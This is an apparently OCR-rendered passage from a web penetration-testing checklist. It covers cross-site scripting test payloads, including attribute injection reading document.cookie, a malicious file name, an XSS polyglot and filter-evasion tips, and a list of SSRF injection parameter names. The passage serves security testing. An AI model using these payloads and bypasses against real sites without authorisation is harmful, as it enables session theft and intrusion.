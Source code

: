 - **Cross-Site Scripting Testing**
    - [ ]  Try XSS using QuickXSS tool by theinfosecguy
    - [ ]  Upload file using '"><img src=x onerror=alert(document.domain)>.txt
    - [ ]  If script tags are banned, use <h1> and other HTML tags
    - [ ]  If output is reflected back inside the JavaScript as a value of any variable just use alert(1)
    - [ ]  if " are filtered then use this payload /><img src=d onerror=confirm(/tushar/);>
    - [ ]  Upload a JavaScript using Image file
    - [ ]  Unusual way to execute your JS payload is to change method from POST to GET. It bypasses filters sometimes
    - Tag attribute value
        - [ ]  Input landed -<input type=”text” name=”state” value=”INPUT_FROM_ USER”>
        - [ ]  Payload to be inserted -“ onfocus=”alert(document.cookie)"
    - [ ]  Syntax Encoding payload “%3cscript%3ealert(document.cookie)%3c/script%3e"
    - XSS filter evasion
        - [ ]  < and > can be replace with html entities &lt; and &gt;
        - [ ]  You can try an XSS polyglot.Eg:-javascript:/*-></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
    - XSS Firewall Bypass
- **Server-side request forgery (SSRF)**
    - Common injection parameters
        
        ```markup
        "access=", 
        "admin=", 
        "dbg=", 
        "debug=", 
        "edit=", 
        "grant=", 
        "test=", 
        "alter=", 
        "clone=", 
        "create=", 
        "delete=", 
        "disable=", 
        "enable=", 
        "exec=", 
        "execute=", 
        "load=", 
        "make=", 
        "modify=", 
        "rename=", 
        "reset=", 
        "shell=", 
        "toggle=", 
        "adm=", 
        "root=", 
        "cfg=",
        "dest=", 
        "redirect=", 
        "uri=", 
        "path=", 
        "continue=", 
        "url=", 
        "window=", 
        "next=", 
        "data=", 
        "reference=", 
        "site=", 
        "html=", 
        "val=", 
        "validate=", 
        "domain=", 